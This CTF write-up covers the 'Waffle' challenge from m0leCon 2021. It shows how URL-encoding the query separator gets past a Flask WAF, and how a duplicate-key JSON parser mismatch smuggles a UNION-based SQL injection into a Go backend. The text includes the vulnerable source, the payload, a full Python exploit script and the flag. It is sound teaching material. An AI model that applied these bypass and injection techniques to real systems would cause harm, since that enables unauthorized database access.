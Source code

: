 ```yaml
---
title: Waffle Write-up - m0leCon CTF 2021 Teaser
date: 2021-05-16
author: Yadhu Krishna M
author_url: https://twitter.com/YadhuKrishna_
categories:
 - Web Exploitation
tags:
 - SQLi
 - JSON Interoperability
---
```


**tl;dr**

+ Make a GET request to `/gettoken%3fcreditcard=mmm&promocode=FREEWAF` to get the token.
+ Using the token make another request with `{"name":"'  union select flag, 1, 1, 1 from flag -- -", "name":"x"}` to get the flag.

<!--more-->

**No. Of Solves:** 28

**Challenge points:** 165

**Solved By:** [Az3z3l](https://twitter.com/Az3z3l), [imp3ri0n](https://twitter.com/YadhuKrishna_), [1nt3rc3pt0r](https://twitter.com/_1nt3rc3pt0r_), [Captain-Kay](https://twitter.com/captainkay11)

## Challenge Description

We needed to upgrade this app but no one here can code in Go. Easy fix: just put a custom waf in front of it.

**Source Code:** [here](source-code.zip)

## Analysis

With this challenge, we are given two files in which `waf.py` acts as a front-end server, and `main.go` is as a back-end server. On opening up the website, we see that in order to use the search function, a token is needed. And, to get the token, a promo code is to be submitted. 

We have a promo code in `main.go`:

```go=
    if promo == "FREEWAF"{
        cookie    :=    http.Cookie{Name:"token",Value:token}
        http.SetCookie(w, &cookie)
        JSONmessage(w,200,"Take your free token!")
        return
    }
```

However, this promo code is blocked by the flask front-end server, and is not passed on to the back-end server.

```python=
def catch_all(path):
    print(path, unquote(path))
    
    if('gettoken' in unquote(path)):
        promo = request.args.get('promocode')
        creditcard = request.args.get('creditcard')

        if promo == 'FREEWAF':
            res = jsonify({'err':'Sorry, this promo has expired'})
            res.status_code = 400
            return res

        r = requests.get(appHost+path, params={'promocode':promo,'creditcard':creditcard})

    else:
        r = requests.get(appHost+path)
    
    headers = [(name, value) for (name, value) in r.raw.headers.items()]
    res = Response(r.content, r.status_code, headers)
    return res
```
There is also a possibility of SQL Injection in the `searchWaffle` function in `main.go`, as the variable is directly concatenated with the SQL query.

```golang=
    query := "SELECT name, radius, height, img_url FROM waffle "
    var nFilt = 0

    name, err := jsonparser.GetString(reqBody,"name")
    if (err==nil){
        nFilt++
        query += "WHERE name = '" + name + "' "
    }

```


Now, our aim is clear. We first need to the front-end server to forward the `promocode` to the back-end server and get the token. Then, with the token, we have to exploit the SQL Injection in `main.go`.


## Solution

### Extracting Token

The `catch_all` function, uses urllib's unquote method to replace %xx escapes with their single-character equivalent. It then uses `request.args` to get values from the parameters. 

```python=

def catch_all(path):
    print(path, unquote(path))
    
    if('gettoken' in unquote(path)):
        promo = request.args.get('promocode')
        creditcard = request.args.get('creditcard')

        if promo == 'FREEWAF':
            res = jsonify({'err':'Sorry, this promo has expired'})
            res.status_code = 400
            return res

        r = requests.get(appHost+path, params={'promocode':promo,'creditcard':creditcard})

    else:
        r = requests.get(appHost+path)
    
    headers = [(name, value) for (name, value) in r.raw.headers.items()]
    res = Response(r.content, r.status_code, headers)
    return res
```

To bypass these checks, we urlencode the `?`, and make a get request to `/gettoken%3fcreditcard=x&promocode=FREEWAF`. With this, the Flask server does not detect any arguments. 

Both `promo` and `creditcard` variables will be`None` and the variable `path` will contain `gettoken?creditcard=mmm&promocode=FREEWAF`. This bypasses the checks and forwards the request to the back-end server, and we get the token.

`token=LQuKU5ViVGk4fsytWt9C`

Now, we have obtained access to search method.

### Exploiting SQL Injection

We have already identified that there is a possibility for SQL Injection in `searchWaffle` method in `main.go`. However, there are some checks implemented in the front-end server for mitigating this.

```python=
@app.route('/search', methods=['POST'])
def search():
    j = request.get_json(force=True)
    
    badReq = False
    if 'name' in j:
        x = j['name']
        if not isinstance(x, str) or not x.isalnum():
            badReq = True
    if 'min_radius' in j:
        x = j['min_radius']
        if not isinstance(x, int):
            badReq = True
    if 'max_radius' in j:
        x = j['max_radius']
        if not isinstance(x, int):
            badReq = True

    if badReq:
        res = jsonify({'err':'Bad request, filtered'})
        res.status_code = 400
        return res
```

The `search` method in the front-end server uses Flask's JSON parser whereas the back-end server uses a custom JSON parser. 

There can be differences in how different JSON parsers parse data. And this could lead to inconsistency. This is called JSON interoperability (Read more about this [here](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities)). 

```json=
{
    "name":"'  union select flag, 1, 1, 1 from flag -- -",
    "name":"x",
    "min_radius":1,
    "max_radius":10
}
```

The JSON Parser at front-end takes the second value of `name` whereas the back-end JSON parser takes the first value for `name`. This helps us to bypass the checks and this causes in an SQL Injection in back-end.

## Exploit Script

```python=
import requests

sess = requests.Session()
host = "http://waffle.challs.m0lecon.it"

sess.get(host + "/gettoken%3fcreditcard=x&promocode=FREEWAF")

print(f"Recieved token: {sess.cookies['token']}")

payload = """{"name":"'  union select flag, 1, 1, 1 from flag -- -","name":"x"}"""
flag = sess.post(host + "/search", data=payload)

print(f"Flag: {flag.json()[0]['name']}")
```

## Flag

```
ptm{n3ver_ev3r_tru5t_4_pars3r!}
```
